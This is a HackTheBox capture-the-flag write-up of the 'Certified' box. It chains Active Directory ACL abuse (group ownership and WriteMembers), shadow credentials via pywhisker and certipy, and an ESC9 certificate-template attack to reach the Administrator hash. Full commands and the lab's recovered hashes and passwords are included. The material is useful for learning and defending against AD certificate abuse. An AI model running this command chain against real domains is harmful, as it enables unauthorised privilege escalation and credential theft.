# Certified -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Certified (HackTheBox)
**Author:** dsec
**Date:** 2025-12-11

---

## TL;DR

### AD certificate abuse chain. Started with provided creds, abused ownership + WriteMember permissions to join the Management group, used pywhisker for shadow credentials on management_svc, then ESC9 certificate attack through ca_operator to get Administrator hash.
---
## Target info

- Host: `10.129.239.104` / `10.10.11.41`
- Domain: `certified.htb`
---
## Enumeration











Starting creds: `judith.mader:judith09`





---
## Step 1 -- Take ownership of Management group

Set judith as owner of the Management group:



```bash
bloodyAD -d certified.htb -u judith.mader -p judith09 --host 10.129.239.104 set owner "CN=Management,CN=Users,DC=certified,DC=htb" "CN=Judith Mader,CN=Users,DC=certified,DC=htb"
```

---
## Step 2 -- Add judith to Management group

Write member permissions:



```bash
python3 dacledit.py -dc-ip 10.129.239.104 -u certified.htb/judith.mader:judith09 -target-dn "CN=Management,CN=Users,DC=certified,DC=htb" -principal-dn "CN=Judith Mader,CN=Users,DC=certified,DC=htb" -action write -rights WriteMembers
```

Immediately add to group:



```bash
bloodyAD -d certified.htb -u judith.mader -p judith09 --host 10.129.239.104 add groupMember "CN=Management,CN=Users,DC=certified,DC=htb" "CN=Judith Mader,CN=Users,DC=certified,DC=htb"
```

Verified:



```bash
bloodyAD -d certified.htb -u judith.mader -p judith09 --host 10.129.239.104 get object "CN=Management,CN=Users,DC=certified,DC=htb"
```

---
## Step 3 -- Shadow credentials on management_svc



```bash
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```





Converted to PFX:

```bash
openssl pkcs12 -export -out management_svc_cert.pfx -inkey management_svc_cert.pem_priv.pem -in management_svc_cert.pem_cert.pem -nodes -password pass:
```

---
## Step 4 -- Fix clock skew and authenticate



```bash
sudo systemctl stop systemd-timesyncd
sudo ntpdate -u 10.129.239.104
certipy auth -pfx management_svc_cert.pfx -u management_svc -domain certified.htb -dc-ip 10.129.239.104 -debug
```

Got management_svc hash: `aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584`





---
## Step 5 -- Certipy enumeration

```bash
certipy find -dc-ip 10.10.11.41 -ns 10.10.11.41 -u management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -vulnerable -stdout
```









Initial shell attempts failed.

---
## Step 6 -- Shadow credentials on ca_operator

Used management_svc's GenericAll over ca_operator to write shadow credentials and get ca_operator's NTLM hash:

```bash
certipy shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.10.11.41
```



ca_operator hash: `259745cb123a52aa2e693aaacca2db52`

---
## Step 7 -- ESC9 attack



Reference: <https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7>

ESC9 conditions:
- StrongCertificateBindingEnforcement not set to 2 (default: 1) or CertificateMappingMethods contains UPN flag
- Certificate contains CT_FLAG_NO_SECURITY_EXTENSION flag in msPKI-Enrollment-Flag
- Certificate specifies any client authentication EKU
- Attacker has GenericWrite over another account

Changed ca_operator's UPN to Administrator (not `Administrator@domain` -- that would conflict):

```bash
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.10.11.41
```



Requested certificate as ca_operator using the vulnerable template:

```bash
certipy req -u ca_operator -hashes :259745cb123a52aa2e693aaacca2db52 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```



Had to run commands in quick succession:





Changed ca_operator UPN back to original:

```bash
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.10.11.41
```



Kept syncing the clock until the hash came through:



Administrator hash: `aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34`

---
## Extra notes

When dealing with clock skew, use faketime to create a synced shell instead of repeatedly running ntpdate:

```bash
faketime -f $(ntpdate -q dc | awk '{print $4}') zsh -l
```

---
## Lessons & takeaways

- AD certificate abuse chains can be long -- ownership -> group membership -> shadow credentials -> ESC9
- ESC9 works by changing a user's UPN to Administrator before requesting a certificate
- Clock skew is a common issue with Kerberos -- sync with the DC or use faketime
- The `faketime` trick avoids having to change system time and re-sync repeatedly
---
